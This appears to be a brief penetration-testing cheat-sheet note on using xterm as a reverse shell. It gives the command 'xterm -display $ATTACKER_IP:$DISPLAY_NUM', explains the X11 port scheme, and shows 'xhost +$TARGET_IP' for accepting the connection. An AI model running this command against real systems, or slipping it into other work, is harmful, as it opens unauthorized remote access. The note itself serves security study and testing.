 # Exploiting Xterm

* **author**:: Nathan Acks  
* **date**:: 2022-07-11

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
